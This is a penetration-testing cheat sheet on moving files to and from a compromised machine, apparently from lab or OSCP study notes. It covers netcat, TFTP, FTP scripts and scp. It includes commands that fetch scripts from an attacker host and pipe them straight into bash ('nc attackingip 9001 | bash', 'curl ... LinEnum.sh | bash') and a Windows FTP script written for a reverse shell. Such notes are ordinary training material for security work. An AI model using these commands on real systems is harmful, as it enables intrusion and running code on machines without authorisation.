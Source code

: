 ## File Transfers
#### Find writable directories in Linux
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
#### To host files in Kali
```
python -m SimpleHTTPServer 80

python3 -m http.server 80
```
#### To download files
```
wget http://attackingip/file.ext
# or
curl http://attackingip/file.ext > file.ext

```
#### Netcat File Transfer
```
# Setup a listener to receive file
nc -nlvp 55555 > file

# Now send the file
nc iptoreceivefile 55555 < file 
```
#### Alternate Netcat File Transfer to execute automatically in bash
```
# On attacking box
cat LinEnum.sh | nc -lvnp 9001

# On target machine
nc attackingip 9001 | bash
```
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---
#### File Transfer using SSH
```
scp filename username@ipaddress
# Then enter password at prompt
```
---
#### Transferring and running a file on linux
```
curl -s http://<hostip>/LinEnum.sh | bash
```
